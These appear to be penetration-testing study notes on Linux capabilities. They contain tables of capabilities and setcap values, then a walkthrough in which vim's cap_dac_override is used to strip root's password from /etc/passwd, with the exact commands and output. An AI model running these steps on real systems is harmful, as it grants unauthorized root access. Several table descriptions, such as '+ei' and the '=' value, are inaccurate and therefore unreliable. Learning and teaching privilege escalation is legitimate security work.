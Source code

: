 Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.
Some capabilities, such as `cap_sys_admin`, which allows an executable to perform actions with administrative privileges, can be dangerous if they are not used properly. For example, we could exploit them to escalate their privileges, gain access to sensitive information, or perform unauthorized actions. Therefore, it is crucial to set these types of capabilities for properly sandboxed and isolated executables and avoid granting them unnecessarily.

|**Capability**|**Description**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|
# Assigning capabilities with setcap
When using the `setcap` command to set capabilities for an executable in Linux, we need to specify the capability we want to set and the value we want to assign. The values we use will depend on the specific capability we are setting and the privileges we want to grant to the executable.

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

|**Capability Values**|**Description**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|
# Abusing capabilities

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

| **Capability**     | **Description**                                                                                                                                                                                                              |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.                                                                                          |
| `cap_setgid`       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.                                                                                                 |
| `cap_sys_admin`    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems. |
| `cap_dac_override` | Allows bypassing of file read, write, and execute permission checks.                                                                                                                                                         |
|                    |                                                                                                                                                                                                                              |
|                    |                                                                                                                                                                                                                              |

enumerating for capabilites
```shell-session
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

## cap_dac_override
If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:


```shell-session
getcap /usr/bin/vim.basic
```

Let us take a look at the `/etc/passwd` file where the user `root` is specified:

```shell-session
cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:

```shell-session
/usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:

```shell-session
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```